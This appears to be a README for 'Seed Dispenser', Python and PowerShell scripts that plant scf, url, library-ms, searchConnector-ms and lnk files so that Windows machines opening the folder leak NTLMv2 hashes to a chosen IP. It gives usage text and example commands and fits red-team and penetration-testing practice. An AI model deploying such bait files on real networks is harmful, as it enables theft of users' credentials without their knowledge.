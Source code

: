 # Seed Dispenser

Two scripts that generate files that will harvest hashes when a windows machine opens the folder that contains those files, it was inspired the Crop tool from [farmer](https://github.com/mdsecactivebreach/Farmer), I just made them because sometimes I'm too lazy to compile tools or even open a windows box.
Notice that the Crop tool is made to work with other tools becoming way more powerful please check it out if you want something better.

## Usage

```
usage: seed-dispenser.py [-h] [-rl REMOTELOCATION] [-st SEEDTYPE]

Small script that generates a file that when is showed on windows explorer will try to retrieve an
icon from a remote conection, its purpose is to collect NTLMv2 hashes. Supported types scf, url,
searchConnector-ms and library-ms.

optional arguments:
  -h, --help            show this help message and exit
  -rl REMOTELOCATION, --remotelocation REMOTELOCATION
                        IP where the icon will try to load from.
  -st SEEDTYPE, --seedtype SEEDTYPE
                        Type of generated file, the ones available are scf, url, searchConnector-
                        ms and library-ms.
```
Example: ./seed-dispenser.py -rl 192.168.1.250 -st url

For powershell dot source the script and then use:
```
New-Seed -RemoteLocation <IP> -SeedType <type of file>
```

Example New-Seed -RemoteLocation 192.168.1.250 -SeedType lnk

Notice that lnk type is only supported on the powershell version, and has to be used inside a windows box.
If you don't want to dot source the script you can uncomment the last line and execute the script with the proper arguments.

## Known issues

For some reason searchConnector and library-ms files doesn't work when they are generated inside a windows box, the other kinds of files work as they should, if you need any of those files you can use the python version or run the powershell script inside powershell for linux and upload the files where you want.

## TODO

Figure out why searchConnector and library-ms files doesn't work when they are generated on windows and fix it.
